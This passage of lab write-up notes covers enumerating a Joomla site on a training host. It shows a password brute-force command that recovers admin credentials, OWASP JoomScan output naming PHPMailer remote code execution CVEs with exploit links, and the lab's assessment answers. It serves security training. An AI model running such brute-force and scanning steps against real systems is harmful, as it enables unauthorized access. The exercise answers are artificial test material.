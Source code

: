 ```shell-session
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```

## Assessment

**Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)**

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>3.10.0</p></figcaption></figure>

**Find the password for the admin user on http://app.inlanefreight.local**

```
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://app.inlanefreight.local ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.10.0

[+] Core Joomla Vulnerability
[++] PHPMailer Remote Code Execution Vulnerability
CVE : CVE-2016-10033
https://www.rapid7.com/db/modules/exploit/multi/http/phpmailer_arg_injection
https://github.com/opsxcq/exploit-CVE-2016-10033
EDB : https://www.exploit-db.com/exploits/40969/

PPHPMailer Incomplete Fix Remote Code Execution Vulnerability
CVE : CVE-2016-10045
https://www.rapid7.com/db/modules/exploit/multi/http/phpmailer_arg_injection
EDB : https://www.exploit-db.com/exploits/40969/

[+] Checking Directory Listing
[++] directory has directory listing : 
http://app.inlanefreight.local/administrator/components
http://app.inlanefreight.local/administrator/modules
```